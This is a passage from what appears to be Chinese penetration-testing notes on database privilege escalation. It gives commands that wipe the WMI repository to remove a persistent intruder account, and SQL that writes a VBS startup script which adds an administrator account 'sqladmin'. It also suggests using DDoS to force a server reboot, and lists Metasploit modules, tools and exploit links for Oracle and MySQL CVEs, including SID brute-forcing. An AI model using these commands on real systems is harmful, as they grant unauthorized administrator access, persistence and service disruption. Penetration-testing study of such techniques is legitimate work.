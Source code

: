     我们提权成功后,就算被删号,mof 也会在五秒内将原账号重建,那么这给我们退出测试造成了很大的困扰,所以谨慎使用.那么我们如何删掉我们的入侵账号呢？
    ```
    net stop winmgmt
    del c:/windows/system32/wbem/repository
    net start winmgmt
    ```

- **启动项提权**

    在前两种方法都失败时,那可以试一下这个苟延残喘的启动项提权..因为要求达到的条件和 mof 几乎一样,并且要重启服务,所以不是十分推荐.原理还是使用 mysql 写文件,写入一段 VBS 代码到开机自启动中,服务器重启达到创建用户并提权,可以使用 DDOS 迫使服务器重启.

    提权条件
    1. file_priv 不为 null
    2. 已知 root 密码

    ```sql
    create table a (cmd text);
    insert into a values ("set wshshell=createobject (""wscript.shell"") " );
    insert into a values ("a=wshshell.run (""cmd.exe /c net user sqladmin 123456 /add"",0) " );
    insert into a values ("b=wshshell.run (""cmd.exe /c net localgroup administrators sqladmin /add"",0) " );
    select * from a into outfile "C:\\Documents and Settings\\All Users\\「开始」菜单\\程序\\启动\\a.vbs";
    ```

---

## oracle
**工具**
- [jas502n/oracleShell](https://github.com/jas502n/oracleShell) - oracle 数据库命令执行
- [quentinhardy/odat](https://github.com/quentinhardy/odat)

**CVE-2010-3600 Oracle Enterprise Manager Grid Control JSP 代码执行漏洞**
- MSF 模块
    ```bash
    use exploit/windows/oracle/client_system_analyzer_upload
    ```

**CVE-2012-1675 Oracle TNS Listener Remote Poisoning**
- 文章
    - [Oracle TNS Listener Remote Poisoning](http://www.cnblogs.com/zhuxr/p/9618512.html)

- MSF 模块
    ```bash
    use auxiliary/admin/oracle/tnscmd   # 该漏洞可以远程获取到 oracle 的内存信息,若是能获取到内存中的数据即为存在漏洞.
    set rhosts <ip>
    run

    use auxiliary/admin/oracle/sid_brute  # 爆破 oracle 的 SID
    set rhosts <ip>
    run
    ```

**CVE-2012-5615 Oracle MySQL Server 5.5.19 用户名枚举漏洞**
- POC | Payload | exp
    - [MySQL - Remote User Enumeration](https://www.exploit-db.com/exploits/23081)
    - [MySQL 5.1/5.5 (Windows) - 'MySQLJackpot' Remote Command Execution](https://www.exploit-db.com/exploits/23073)

---